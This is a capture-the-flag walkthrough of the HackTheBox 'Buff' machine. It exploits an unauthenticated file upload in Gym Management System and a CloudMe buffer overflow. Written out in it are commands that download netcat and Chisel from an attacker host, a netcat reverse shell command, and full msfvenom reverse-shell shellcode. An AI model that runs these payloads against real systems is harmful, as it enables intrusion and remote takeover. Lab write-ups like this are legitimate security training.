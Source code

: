 # HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------

![Buff.png](../assets/buff_assets/Buff.png)

### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:

![software.png](../assets/buff_assets/software.png)

Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.

![searchsploit.png](../assets/buff_assets/searchsploit.png)

Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and fire, with no changes needed.

### Exploitation


I execute the exploit using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2, because this is an old script and I didn't want to have to go through and clean up all the print statements, after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a web-shell, where I can grab user.txt.

![user_flag.png](../assets/buff_assets/user_flag.png)

### Privilege Escalation

This web-shell is not the best to work out of, so I'm going to create a reverse shell from the web-shell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a Python webserver and on the target box fetch netcat with:

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 

![stable_shell.png](../assets/buff_assets/stable_shell.png)

Browsing around the machine, I find and interesting executable in Shaun's Downloads folder:

![find_cloudme.png](../assets/buff_assets/find_cloudme.png)

It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in Python, and Python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my machine to the target.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need  light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target:

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward. https://github.com/jpillora/chisel

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:

![root_flag.txt](../assets/buff_assets/root_flag.png)

Nice!

This was a great easy level box, with a simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------
